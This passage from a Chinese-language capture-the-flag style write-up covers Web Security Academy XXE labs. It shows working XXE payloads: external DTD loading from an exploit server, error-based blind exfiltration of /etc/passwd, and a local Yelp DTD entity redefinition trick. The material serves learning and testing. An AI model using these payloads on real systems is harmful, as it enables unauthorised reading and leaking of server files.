 再通过构造Poc，访问服务器上的DTD文件

```XML
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac0b1fa51f991d5bc1b42e89010300cc.web-security-academy.net/exploit"> %xxe;]>
```

![image-20220525154957429](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525154957429.png)

查看日志，获取到flag

![image-20220525155132848](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525155132848.png)

------

#### 0x09 盲XXE通过报错外带数据

跟**0x08**类似，想了一下，单独开个**0x09**讲吧

服务器上新建一个DTD文件：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

构造Poc：

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac071f711e38709ec0a7233601130039.web-security-academy.net/exploit"> %xxe;]>
```

触发报错，带出数据

![image-20220525155931835](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525155931835.png)

------

#### 0x10 高价XXE(利用本地DTD检索数据)

先来了解一个文件，叫`docbookx.dtdISOamso`，默认路径为`/usr/share/yelp/dtd/docbookx.dtdISOamso.`，为GNOME 桌面环境的默认文件，

特殊Poc：导入Yelp DTD重新定义实体,触发包含文件内容的报错，带出数据

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image-20220525163640418](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525163640418.png)
